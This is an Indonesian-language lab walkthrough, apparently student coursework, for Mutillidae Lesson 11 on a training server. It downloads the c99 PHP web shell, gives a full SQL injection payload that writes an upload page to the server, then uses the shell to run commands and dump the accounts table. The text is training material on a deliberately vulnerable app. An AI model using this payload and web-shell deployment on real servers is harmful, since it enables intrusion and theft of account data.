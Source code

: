 Lesson 11
--------
- **Step 1**    : Buka terminal pada Kali, lalu ketik `mkdir -p /root/backdoor` lalu `cd /root/backdoor/` lalu ketik `wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar` lalu `ls -lrta`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/1.JPG)
- **Step 2**    : Lalu ketik `unrar x stuff.rar` lalu `cat part1.txt part2.txt part3.txt > c99.php` lalu `cp c99.php c99.php.bkp` lalu `ls -lrt`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/2.JPG)
- **Step 3**    : Lalu ketik `head -l c99.php` lalu `sed -i '1 s/^.*$/<?php/g' c99.php` lalu `head -1 c99.php` lalu `gzip c99.php` lalu `ls -lrta c99*`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/3.JPG)
- **Step 5**    : Buka mozilla pada Kali lalu buka web mutillidae lalu klik OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info pada mutillidae, lalu ubah size pada kolom **Name** dari **20** menjadi **550** lalu ketik `' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/mutillidae/upload_file.php' --` dan jangan lupa tambahkan spasi setelah `--` dan klik view account details
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/4.JPG)
- Lalu akan muncul hasilnya seperti ini
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/5.JPG)
- **Step 6**    : Buka tab baru pada mozilla lalu buka `10.151.36.105/mutillidae/upload_file.php` pilih browse, lalu pilih file c99.php yang berada di folder backdoor akan muncul seperti
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/6.JPG)
- **Step 7**    : Buka tab baru pada mozilla lalu buka `10.151.36.105/mutillidae/c99.php` pilih browse, lalu pilih file c99.php yang berada di folder backdoor akan muncul seperti
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/7.JPG)
- **Step 7**    : Lalu klik pada `Sec.` lalu contohnya ketik `pwd` pada kolom **Enter** lalu klik **Execute**
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/8.JPG)
- Lalu akan muncul hasilnya seperti
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/9.JPG)
- **Step 7**    : Lalu klik pada `SQL` lalu isi kolom-kolomnya sesuai dengan gambar dibawah lalu klik connect
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/10.JPG)
- Lalu akan muncul 
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/11.JPG)
- **Step 8**    : Lalu isi kolom-kolom yang ada sesuai keinginan masing-masing, sebagai contohnya adalah pada gambar berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/12.JPG)
- Lalu akan muncul hasilnya seperti gambar dibawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/13.JPG)
- **Step 9**    : Lalu klik pada `Dump` lalu isi seperti pada gambar dibawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/14.JPG)
- **Step 10**    : Lalu buka terminal pada Kali ketik `cd /root` lalu `grep -i hacker dump_wasp10_accounts.sql` lalu `date`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2011/15.JPG)
